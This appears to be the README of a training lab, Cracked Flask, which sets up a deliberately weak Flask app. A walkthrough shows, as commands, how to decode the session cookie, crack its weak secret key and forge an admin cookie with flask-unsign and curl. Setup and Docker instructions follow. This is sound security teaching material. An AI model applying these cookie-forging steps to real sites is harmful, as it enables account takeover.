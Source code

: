 # Cracked Flask

This is the code and deployment information for my [Cracked Flask](https://crackedflask.digi.ninja/) lab. For full details on the lab, see the [Cracked Flask blog post](https://digi.ninja/blog/cracked_flask.php).

## Walk Through

Pull down the cookie and have a look what is in it:

```
flask-unsign --decode --server https://crackedflask.digi.ninja
```

Try to crack it:

```
flask-unsign --unsign --server https://crackedflask.digi.ninja
```

Cracked it and got the secret key "monkey" so now create a new cookie with the username admin rather than robin:

```
flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"
```

Finally, make a request using the new cookie:

```
curl --cookie "session=eyJoZWxsbyI6IndvcmxkMiIsInVzZXJuYW1lIjoiYWRtaW4ifQ.YbCXpA.45th8HQUFJO6GHycU_fMkPQ31qc" https://crackedflask.digi.ninja
```

If you want to combine the last two commands:

```
COOKIE=`flask-unsign --sign --secret monkey --cookie "{'hello': 'world2', 'username': 'admin'}"`
curl --cookie "session=$COOKIE" https://crackedflask.digi.ninja
```

Or you could just put the signing command into the curl command with backticks.

## Running the App

To run the app locally, first install the requirements:

```
pip3 install -r requirements.txt
```

And then run it:

```
python3 cracked_flask.py 
```

The app will start a listener on port 5000.

## Docker

This will build and start the Docker container.

```
docker build -t digininja/cracked_flask .
docker run -p 127.0.0.1:5000:5000 --name cracked_flask digininja/cracked_flask
```

## References

Some useful references:

- [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign) - A tool to decode, crack, and sign, Flask cookies.
- [Building a Flask app](https://flask.palletsprojects.com/en/2.0.x/quickstart/) - Building your first Flask app.
- [Deploying a Flask app](https://flask.palletsprojects.com/en/2.0.x/tutorial/deploy/) - How to deploy a Flask app.
- [Building and deploying a Flask app in Docker](https://support.stackpath.com/hc/en-us/articles/360022987711-Edge-Computing-Building-a-Containerized-Python-Web-App-Using-Flask) - A full walk through of all the stages in a single page.
